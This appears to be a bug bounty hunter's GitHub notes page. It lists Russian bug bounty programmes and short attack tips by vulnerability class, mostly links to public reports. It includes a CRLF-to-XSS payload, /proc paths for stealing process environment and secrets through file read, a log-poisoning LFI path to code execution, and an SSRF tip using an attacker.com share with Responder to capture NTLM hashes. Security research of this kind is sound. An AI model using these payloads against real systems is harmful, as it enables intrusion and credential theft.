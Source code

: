# Platforms

- https://bugbounty.ru
- https://yandex.ru/bugbounty/index
- https://support.kaspersky.ru/vulnerability/overview/12428?el=12429#block2
- https://www.jivo.ru/bugbounty/ 
- https://www.cloud4y.ru/cloud-services/bugbounty/ 
- https://kontur.ru/bugbounty 
- https://ru.liveagent.com/programma-bag-baunti/ 
- https://corp.mamba.ru/ru/developer/security 
- https://love.ru/bugbounty/ 
- https://bugbounty.mts-link.ru/

# by Schemes

- [Attacking Redis db via CR symbols in `git://` link](https://hackerone.com/reports/441090)
- [A tool](https://github.com/tarunkant/Gopherus) to attack different network services via a `gopher://` link

# by Vulns

## Cross-tenant vulnerabilities (related for cloud providers)

- [Finding local orchestrator API via script execution ability](https://orca.security/resources/blog/autowarp-microsoft-azure-automation-service-vulnerability/?ref=danaepp.com)
- 
## CRLF Injection

[Session Fixation](https://hackerone.com/reports/15492) via [nginx misconfiguration](http://blog.volema.com/nginx-insecurities.html)

Escalation to XSS: 
```
?name=Bob%0d%0a%0d%0a<script>alert(document.domain)</script>
```

## Local File Read

Read `web.config` file to obtain .NET ViewState's MachineKey and DecryptionKey, which are allow you to do deserialization attacks: https://www.silentgrid.com/blog/local-file-read-to-rce/.

Leak some [juicy OS info](https://www.kernel.org/doc/html/latest/filesystems/proc.html):
- /proc/version - OS Version
- /proc/net/tcp - open TCP ports
- /proc/net/udp - open UDP ports
- /proc/sched_debug - can be used to retrieve running processes
- /proc/mounts - mounted devices
- /proc/[PID]/cmdline - command line that triggered the running process (fuzz pid here)
- /proc/[PID]/environ - environment variables accessible to the process
- /proc/[PID]/cwd - current working directory of the process
- /proc/[PID]/fd/[n] - files opened by the process
- /proc/[PID]/exe - link to the executable file

## Local File Inclusion

Read `../../../../var/log/apache2/access.log` or [same file via proc](https://xen0vas.github.io/Exploiting-the-LFI-vulnerability-using-the-proc-self-stat-method/#) to get RCE via `User-Agent`.

## SSRF

Try `\\attacker.com\test.jpg` links with a running Responder to capture Net-NTLMv2 hashes.

## Open Redirect

Can be escalated when app uses OAuth; redirection can be done using `javascript:` scheme (see https://rdnzx.medium.com/chaining-open-redirect-with-xss-to-account-takeover-36acf218a6d5 and some more payloads for fuzzing in hacktricks).

Redirection is found on reverse proxy and [can move you to internal servises (SSRF)](https://blog.detectify.com/2019/05/16/the-real-impact-of-an-open-redirect/).

## WebView

[RCE via @JavascriptInterface](https://dphoeniixx.medium.com/tiktok-for-android-1-click-rce-240266e78105)

## File upload

Always look for the command injection if you have noticed that your files are edited or converted in some way.

### Image

Basically SVG files can be used to insert arbitary JavaScript code via `script` tag and even entire HTML-markup via the `foreignObject` tag: https://github.com/allanlw/svg-cheatsheet.

If an old version of librsvg is used to convert SVG to PNG, it can cause a [memory leakage](https://hackerone.com/reports/2107680).

### Video

[SSRF-LFR in FFmpeg](https://hackerone.com/reports/1062888)

### XLSX

[XXE](https://hackerone.com/reports/105434)

## Serialization
### PHP

https://habr.com/ru/articles/708384/